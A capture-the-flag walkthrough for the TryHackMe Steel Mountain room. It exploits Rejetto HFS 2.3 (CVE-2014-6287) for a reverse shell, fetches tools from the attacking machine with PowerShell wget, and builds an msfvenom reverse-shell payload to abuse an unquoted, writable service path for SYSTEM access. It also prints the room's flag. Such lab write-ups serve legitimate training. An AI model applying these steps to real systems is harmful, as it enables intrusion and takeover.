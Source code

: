Room: https://tryhackme.com/room/steelmountain  

**sudo** nmap -sV -sS -T5 -vv xx.xx.xx.xx

```
PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
8080/tcp  open  http               syn-ack ttl 127 HttpFileServer httpd 2.3
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

On http://machineip:8080 we can find a file server running - Rejetto HTTP File Server2.3. 

**searchsploit** -w hfs 2.3
```
----------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                         |  URL
----------------------------------------------------------------------- --------------------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)            | https://www.exploit-db.com/exploits/49584
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)            | https://www.exploit-db.com/exploits/48569
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload         | https://www.exploit-db.com/exploits/30850
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)    | https://www.exploit-db.com/exploits/34668
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)    | https://www.exploit-db.com/exploits/39161
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Executi | https://www.exploit-db.com/exploits/34852
----------------------------------------------------------------------- --------------------------------------------

```

The CVE for this exploit is 2014-6287 and allows us RCE. We'll use the RCE(2) exploit.  

Download, edit the script and add: 
* Your attacking machine IP.
* A desired port.

Download ncat static binary for windows from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)
Create a HTTP server in the same folder as **nc.exe**.
> python -m SimpleHTTPServer 80

Then, start a netcat listener on the same port you set in the exploit.  
> nc -nvlp [port]  

We need to run the exploit twice.  
After the first run, it gets the netcat static binary via the HTTP server.  
```
Serving HTTP on 0.0.0.0 port 80 ...
xx.xx.xx.xx - - [09/Oct/2021 22:58:18] "GET /nc.exe HTTP/1.1" 200 -
xx.xx.xx.xx - - [09/Oct/2021 22:58:19] "GET /nc.exe HTTP/1.1" 200 -
xx.xx.xx.xx - - [09/Oct/2021 22:58:19] "GET /nc.exe HTTP/1.1" 200 -
xx.xx.xx.xx - - [09/Oct/2021 22:58:20] "GET /nc.exe HTTP/1.1" 200 -
```

After the second run, the binary gets called and we get a reverse shell on our netcat listener.   
```
connect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xx.xx] 49177
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

```
After we get our reverse shell, we can get a script to check for windows vulnerabilities instead of looking for them manually.  
Download winPEAS and place it in the same folder with the HTTP server.  

From the reverse shell we got earlier, use ```powershell -c wget "http://attackingMachineIP/winPEASx86.exe" -outfile "winpeas.exe"```  

After we run it, we see something that can be easily abused.  
```
���������͹ Interesting Services -non Microsoft-
� Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected
    File Permissions: bill [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\IObit\Advanced SystemCare (bill [WriteData/CreateFiles])
    Advanced SystemCare Service
   =================================================================================================
```

**cd** C:\Program Files (x86)\IObit\Advanced SystemCare

We need to see if the process can be started/stopped and if we have permissions to do that.  

First, go back one one directory and run  

sc sq AdvancedSystemCareService9
```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

icacls "Advanced SystemCare"
```
Advanced SystemCare STEELMOUNTAIN\bill:(I)(OI)(CI)(RX,W)
                    NT SERVICE\TrustedInstaller:(I)(F)
                    ...................................
```
The (RX,W) is what matters -- It means we have acces to write, read and execute.  


Let's create a payload using **msfvenom** from the **attacking machine**.  
**msfvenom** -p windows/shell_reverse_tcp LHOST=attackingMachineIP LPORT=1111 -f exe -o Advanced.exe

Now, transfer the payload to C:\Program Files (x86)\IObit   
Start another listener on the attacking machine on the same port as the payload.  

On the target machine, run the following two commands:   
**sc** stop AdvancedSystemCareService9  
**sc** start AdvancedSystemCareService9   

We should get a remote shell on the second listener with administrator privileges.  
```
connect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xx.xx] 49263
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

The flag is located on C:\Users\Administrator\Desktop.  
> 9af5f314f57607c00fd09803a587db80

## 

**Note**: There's another way in, using metasploit but that way is more guided & well explained in the room, so no point in covering that.  
